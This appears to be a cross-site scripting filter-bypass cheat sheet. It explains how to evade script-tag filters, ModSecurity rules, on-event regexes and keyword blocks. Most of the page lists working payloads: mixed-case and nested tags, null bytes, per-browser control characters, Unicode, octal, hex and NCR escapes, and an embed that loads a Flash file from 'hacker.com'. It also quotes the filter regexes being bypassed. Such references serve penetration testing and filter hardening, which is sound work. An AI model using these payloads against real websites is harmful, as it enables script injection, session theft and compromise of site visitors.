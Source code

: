 The `<script>` tag is the primary method to execute JavaScript.

Some filters do not cover all possible cases, making them weak and prone to bypass techniques. The following is an example of few bypasses for weak `<script>` tag filter rules:

| Bypass Payload                               | Description                                                    |
| -------------------------------------------- | -------------------------------------------------------------- |
| `<ScRiPt>alert(1);</ScRiPt>`                 | Mixed of upper and lower-case characters.                      |
| `<ScRiPt>alert(1);`                          | Mixed of upper and lower-case characters, without closing tag. |
| `<script/random>alert(1);</script>`          | Random string after the tag name.                              |
| `<script`<br>`>alert(1);</script>`           | New line after the tag name.                                   |
| `<scr<script>ipt>alert(1);</scr<script>ipt>` | Nested tags.                                                   |
| `<scr\x00ipt>alert(1);</script>`             | NULL bytes.                                                    |
## ModSecurity Filter Rules
The following is an example of how ModSecurity filters the `<script>` tag:
```txt
SecRule ARGS
"(?i)(<script[^>]*>[\s\S]*?<\/script[^>]*>|<script[^>]
*>[\s\S]*?<\/script[[\s\S]]*[\s\S]|<script[^>]*>[\s\S]
*?<\/script[\s]*[\s]|<script[^>]*>[\s\S]*?<\/script|<s
cript[^>]*>[\s\S]*?)"
...[SNIP]...
```
## JavaScript using HTML Attributes
Alternatively, JavaScript can also be executed through the use of HTML attributes, below are some few examples:
- `<a href="javascript:alert(1)">show</a>`
- `<a href="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">show</a>`
- `<form action="javascript:alert(1)"><button>send</button></form>`
- `<object data="javascript:alert(1)">`
- `<object data="data:text/html,<script>alert(1)</script>">`
- `<embed code="//hacker.com/xss.swf" allowscriptaccess="always">`
> Note: The `swf` is a defunct Adobe Flash file format. 
## JavaScript using HTML Events
Events are the way that HTML DOM adds interactivity between the website and its visitors.

Almost all event handlers identifier start with `on` and are followed by the name of the event. One of the most used is `onerror`. For example:
```html
<img src=x onerror=alert(1)>
```

Below are some of HTML 4 tag examples:
- `<body onload=alert(1)>`
- `<input type=image src=x:x onerror=alert(1)>`
- `<form oninput=alert(1)><input></form>`
- `<textarea autofocus onfocus=alert(1)>`

While below are some HTML 5 tags examples:
- `<svg onload=alert(1)>`
- `<keygen autofocus onfocus=alert(1)>`
- `<video><source onerror="alert(1)">`
- `<marquee onstart=alert(1)>`
### Filter Rules
The following is a very common regex used to filter all events that start with `on` in order to block this type of payload:
```txt
(on\w+\s*=)
```

However, thanks to a mix of HTML and browser "dynamisms", we can easily bypass this first filter, first example:
- `<svg/onload=alert(1)>`
- `<svg//////onload=alert(1)>`
- `<svg id=x;onload=alert(1)>`

Due to this, the filter has been upgraded to the following, which is more restrictive:
```txt
(?i)([\s\"'`;\/0-9\=]+on\w+\s*=)
```

The following are the bypasses for the second filter, as some browsers convert the control character to a space, thus the `\s` regex rule is not enough to cover all possible characters:
- `<svg onload%09=alert(1)>` (Works on all browsers except Safari)
- `<svg %09onload=alert(1)>`
- `<svg onload%09%20%28%2C%3B=alert(1)>`
- `<svg onload%0B=alert(1)>` (works on IE only)

The following is a list of control characters allowed between the event name attribute (e.g `onload`) and the equal sign character, or just before the event name:
- IExplorer = `0x09`,`0x0B`,`0x0C`,`0x20`,`0x3B`
- Chrome = `0x09`,`0x20`,`0x28`,`0x2C`,`0x3B`
- Safari = `0x2C`,`0x3B`
- FireFox = `0x09`,`0x20`,`0x28`,`0x2C`,`0x3B`
- Opera = `0x09`,`0x20`,`0x2C`,`0x3B`
- Android = `0x09`,`0x20`,`0x28`,`0x2C`,`0x3B`
### Fuzz Testing Filter Rules
Gareth Heyes has created two fuzzer tests:
- [Characters allowed after attribute name](http://shazzer.co.uk/vector/Characters-allowed-after-attribute-name)
- [Characters allowed before attribute name](http://shazzer.co.uk/vector/Characters-allowed-before-attribute-name)
## Keyword-based Filters
There are filters that focuses on blocking the user of certain keywords, such as `alert`, `javascript`, `eval`, etc...
### Character Escaping via Unicode
Here we see Unicode escaping without using native functions:
```javascript
<script>\u0061lert(1)</script>
<script>\u0061\u006\u0065\u0072\u0074(1)</script>
```
Here we see Unicode escaping using native functions.
```javascript
<script>eval("\u0061lert(1)")</script>
<script>eval("\u0061\u006C\u0065\u0072\u0074\u0028\u0031\u0029")</script>
```
### Character Escaping via Decimal, Octal, Hexadecimal
If the filtered vector is within a string, in addition to Unicode, there are multiple escapes we may adopt:
- `<img src=x onerror="\u0061lert(1)"/>`
- `<img src=x onerror="eval('\141lert(1)')"/>` using Octal escape
- `<img src=x onerror="eval('\x61lert(1)')"/>` using Hexadecimal escape
- `<img src=x onerror="&#x0061;lert(1)"/>` using Hexadecimal NCR
- `<img src=x onerror="&#97;lert(1)"/>` using Decimal NCR
- `<img src=x onerror="eval('\a\l\ert\(1\)')"/>` using Superfluous escapes characters
>Note: NCR means Numeric Character Reference

Finally, all character escaping can stay together, for example:
```txt
<img src=x onerror="\u0065val('\141\u006c&#101;&#x0072t\(&#49)')"/>
```
